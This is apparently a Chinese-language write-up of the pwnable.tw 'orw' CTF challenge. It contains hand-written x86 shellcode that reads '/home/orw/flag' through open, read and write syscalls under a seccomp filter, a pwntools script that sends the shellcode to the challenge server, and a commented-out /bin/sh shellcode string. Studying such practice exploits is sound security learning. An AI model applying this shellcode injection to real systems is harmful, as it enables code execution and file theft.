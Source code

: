 # pwnable.tw 之 orw

题目提示：
只能使用read，write，open三个syscall，那么我们只能手写汇编


https://wiki.mozilla.org/Security/Sandbox/Seccomp
http://syscalls.kernelgrok.com/ 



	global START
	
	START:
		jmp MESSAGE
	
	BACK:
	    pop ebx
	    mov eax,5    
	    mov ecx,0
	    mov edx,7
	    int 80h
		
		mov ebx，eax
		mov eax，3
		mov ecx，esp
        mov edx，100
        int 80h
        
		mov eax，4
		mov ebx，1
		mov ecx，esp
		mov edx，100
		int 80h

	 	xor ebx，ebx
		mov eax，1
		int 80h

	MESSAGE:
	    call BACK
	    file db '/home/orw/flag'
	    db 00
    
    
说实话，测试了一下libsecomp 发现还是不行，需要后续接着搞一下

> 可以利用工具来返汇编，这里需要的是把0x8048640开始的0x60字节数据弄出来分析
> https://github.com/seccomp/libseccomp/blob/master/tools/scmp_bpf_disasm.c
> 将数据取出来保存为文本文件，然后直接反汇编就行了，可以看到这里允许3,4,5即open,read,write。
> z
> 这部分需要实现，复现相关内容
> 

说实话，搞一下libsecom相关内容，还是需要一个功能性质的需求

还需需要好好学习下pwntools，功能太强大了，太牛了

    
    #!/usr/bin/env python
    # encoding: utf-8
    
    from pwn import *
    
    p = process("./orw")
    p = remote('chall.pwnable.tw', 10001)
    context.log_level = "debug"
    #shellcode = '31C050B860A0040883C01350EA9885040833004831F648B82F62696E2F736800504889E74831D248C7C03B0000000F05'.decode('hex')
    #gdb.attach(proc.pidof(p)[0],"b *0x08048559\nb *0x804858a\n")
    p.recvuntil(":")
    sc = shellcraft.pushstr("/home/orw/flag")
    # 下面几个函数调用都是通过int 80h调用的，其中三个参数分别为ebx,ecx,edx
    sc += shellcraft.open("esp",0,0)
    sc += shellcraft.read("eax","esp",100)
    sc += shellcraft.write(1,"esp",100)
    sc = asm(sc)
    p.send(sc)
    print p.recv(1000)